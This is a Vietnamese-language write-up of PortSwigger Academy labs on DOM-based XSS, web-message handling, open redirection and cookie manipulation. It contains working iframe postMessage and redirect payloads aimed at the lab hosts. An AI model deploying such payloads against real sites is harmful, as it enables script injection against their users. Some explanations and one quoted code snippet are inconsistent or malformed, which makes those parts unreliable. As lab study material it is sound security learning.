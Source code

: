 # DOM-based vulnerabilities

## What is DOM-based vulnerabilities ?

DOM viết tắt của Document Object Model là 1 dạng chuẩn của W3C đưa ra nhằm để truy xuất và thao tác dữ liệu của tài liệu có cấu trúc như HTML, XML. 
Mô hình này thể hiện tài liệu dưới dạng cấu trúc cây phân cấp. Tất cả các thành phần trong HTML, XML đều được xem như một node. DOM Based XSS là kỹ thuật khai 
thác XSS dựa trên việc thay đổi cấu trúc DOM của tài liệu, cụ thể là HTML.
*Taint-flow vulnerabilities*: Nhiều lỗ hổng dựa trên DOM có thể bắt nguồn từ các vấn đề với cách mã phía máy khách thao túng dữ liệu có thể kiểm soát của kẻ tấn công.


## Controlling the web message source


### Exploit ?? Window.postMessage

Thì window.postMessage là một cách để các site có thể Cross-Origin giữa các Windows objects một cách an toàn (nếu được thực hiện đúng), 
phá bỏ hạn chế của SOP đã được đề cập ở trên một cách có kiểm soát.


postMessage có 2 thành phần chính, đó là:

  + window.postMessage() — Để gửi message
  
  + window.addEventListener(“message”,callback) — để nhận và xử lý message

Syntax chung của postMessage như sau:
```
targetWindow.postMessage(message, targetOrigin, [transfer]);

  + Tham số [transfer] là optional
  + Tham số targetWindow : Reference tới một windows hoặc iframe nào đó mà bạn muốn gửi message
  + Tham số message : Dữ liệu cần gửi đến targetOrigin, có thể là String hoặc JSON Object
  + Tham số targetOrigin Là phần cực kỳ quan trọng, chính là URL của trang nhận message. Tại thời điểm gửi đi (postMessage), 
nếu targetOrigin không khớp với hostname của targetWindow’s page, message sẽ không được gửi đi. Nếu chỉ định * sẽ khiến nó khớp với mọi URL,
tuy nhiên không được khuyến khích bởi lý do bảo mật.
```
## What is DOM-based open redirection?

DOM-based open-redirection vulnerabilities arise when a script writes attacker-controllable data into a sink that can trigger cross-domain navigation. For example, the following code is vulnerable due to the unsafe way it handles the location.hash property:

let url = /https?:\/\/.+/.exec(location.hash);
if (url) {
  location = url[0];
}

An attacker may be able to use this vulnerability to construct a URL that, if visited by another user, will cause a redirection to an arbitrary external domain.

## Prevent DOM-based vulnerabilities

Thật ra bạn không thể tránh hoàn toàn được DOM-based attack. Tuy nhiên, cách hiệu quả nhất để tránh các lỗ hổng dựa trên DOM là tránh cho phép dữ liệu từ bất kỳ 
nguồn không đáng tin cậy nào tự động thay đổi giá trị được truyền đến bất kỳ bộ lưu nào.


## DOM-based Vulnerabilities
### Lab: DOM XSS using web messages

Bài lab mô tả một lỗ hổng thông báo web đơn giản. Để giải quyết lab, hãy sử dụng máy chủ khai thác để đăng thông báo đến trang đích khiến hàm print () được gọi.

Truy cập vào bài lab chúng ta thấy được 1 website bán hàng như sau, vì mô tả bài lab là lỗ hổng thông báo web nên chúng ta sẽ kiểm tra source của web như sau:



Chúng ta phát hiện ra 1 đoạn Javascript như sau:
```
window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                        })
```
Vì đã sử dụng hàm [innerHTML](https://medium.com/@gregadiaz89/dom-innerhtml-vulnerability-8821a03ef2b8) nên dẫn đến việc chúng ta có thể khai thác lỗ hổng này bằng 
1 payload Javascript xây dựng trên khung iframe như sau:

```
<iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('print()','*')">
```

Khi iframe tải, phương thức [postMessage](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source) sẽ gửi một thông báo web đến trang chủ. Trình xử lý sự kiện, nhằm phân phát quảng cáo, lấy nội dung của thông điệp web và chèn nó vào
div với quảng cáo ID. Tuy nhiên, nó sẽ chèn thẻ img của chúng ta, thẻ này chứa thuộc tính src không hợp lệ. Điều này tạo ra một lỗi khiến trình xử lý sự kiện
onerror thực thi payload là hàm print().

Và chúng ta đã solve bài lab

### Lab: DOM XSS using web messages and a JavaScript URL

Bài lab này yêu cầu chứng minh một lỗ hổng DOM-based redirection được kích hoạt bởi tin nhắn web. Để giải quyết lab này, 
hãy xây dựng một trang HTML trên máy chủ khai thác khai thác lỗ hổng này và gọi hàm print ().

Truy cập trang bài lab chúng ta thấy 1 blog như sau:



Kiểm tra source code của website để xác định lỗ hổng DOM :
```
window.addEventListener('message', function(e) {
                            var url = e.data;
                            if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
                                location.href = url;
                            }
                        }, false);
```
Chúng ta có thể khai thác dựa vào hàm addEventListener() 

Payload:
```
<iframe src="https://ac7c1f8a1ea066a28036463100a80023.web-security-academy.net/" 
onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

Tập lệnh này sẽ gửi một thông báo web có chứa payload JavaScript tùy ý, cùng với chuỗi "http:". Đối số thứ hai chỉ định rằng mọi targetOrigin đều được phép cho thông báo web.

Khi iframe tải, phương thức postMessage () sẽ gửi tải trọng JavaScript đến trang chính. 
Trình xử lý sự kiện phát hiện chuỗi "http:" và tiến hành gửi payload đến location.href, nơi hàm print () được gọi. 
Và chúng ta hoàn thành bài lab theo yêu cầu là gọi hàm print()



### Lab: DOM XSS using web messages and JSON.parse

Bài lab này mô tả rằng sử dụng tin nhắn web và phân tích cú pháp tin nhắn dưới dạng JSON. Để giải quyết lab, hãy xây dựng một trang HTML 
trên máy chủ khai thác khai thác lỗ hổng này và gọi hàm print ().

```
window.addEventListener('message', function(e) {
                            var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
                            document.body.appendChild(iframe);
                            try {
                                d = JSON.parse(e.data);
                            } catch(e) {
                                return;
                            }
                            switch(d.type) {
                                case "page-load":
                                    ACMEplayer.element.scrollIntoView();
                                    break;
                                case "load-channel":
                                    ACMEplayer.element.src = d.url;
                                    break;
                                case "player-height-changed":
                                    ACMEplayer.element.style.width = d.width + "px";
                                    ACMEplayer.element.style.height = d.height + "px";
                                    break;
                            }
                        }, false);
```
addEventListener() này nhận một chuỗi được phân tích cú pháp bằng JSON.parse (). Trong JavaScript, chúng ta có thể 
thấy rằng trình xử lý sự kiện mong đợi một thuộc tính và trường hợp load-channel của câu lệnh switch 
sẽ thay đổi thuộc tính iframe src. 
 Chúng ta có thể xây dưng payload dựa trên khung iframe sau : 
```
<iframe src=https://your-lab-id.web-security-academy.net/ onload='this.contentWindow.postMessage("{
\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

Chúng ta truy cập vào Exploit Server để Store đoạn payload lên và trở thành 1 phần của website 
sau đó Deliver to Victim để gửi đến website mà chúng ta muốn exploit

Khi iframe được load, phương thức postMessage () sẽ gửi một thông báo web đến trang chủ website với load-channel.
The event listener nhận được thông báo và phân tích cú pháp nó bằng cách sử dụng JSON.parse ()
trước khi gửi nó đến switch.

Switch kích hoạt trường hợp load-channel, gán thuộc tính url của thông báo cho thuộc tính src của 
iframe ACMEplayer.element. Trong trường hợp này, thuộc tính url của thư thực sự chứa 
payload JavaScript mà chúng ta đã tạo

Vì đối số thứ hai chỉ định rằng bất kỳ targetOrigin nào đều được phép cho thông báo web và trình 
xử lý sự kiện không chứa bất kỳ hình thức kiểm tra nguồn gốc nào,payload được đặt làm src của 
iframe ACMEplayer.element. Hàm print () được gọi khi nạn nhân load website. 



### Lab: DOM-based open redirection

Bài lab mô tả rằng blog này có chứa DOM-based open-redirection(lỗ hổng chuyển hướng), và dể khai thác thành công thì hãy chuyển hướng về server exploit.

Chúng ta kiểm tra source code và phát hiện đây chính là lỗi mà lab nhắc đến

```
<a href='#' onclick='returnURL' = /url=https?:\/\/.+)/.exec(location); 
if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
```

Chức năng của đoạn code này là khi chúng ta truy cập 1 bài viết nào sẽ có đường link dẫn chúng ta quay về trang chủ bằng biến url 
Điều đó làm chúng ta có payload sau:
```
https://ac9e1f1e1e10941180196da900770014.web-security-academy.net/postId=4&
url=https://exploit-ac5f1f7c1ea294d180d16d44012300af.web-security-academy.net/
```
Khi load đường link này chúng ta có thể hoàn thành bài lab.


### Lab: DOM-based cookie manipulation

This lab demonstrates DOM-based client-side cookie manipulation. To solve this lab, inject a cookie that will cause XSS on a 
different page and call the print() function. You will need to use the exploit server to direct the victim to the correct pages.

Bài lab mô tả rằng lỗi thao tác DOM-based client-side cookie này có trên web. Để hoàn thành bài lab, chúng ta phải inject 1 cookie sẽ gây ra XSS trên một trang khác và gọi hàm print ().
Và chúng ta cần sự hỗ trợ của của exploit server.




















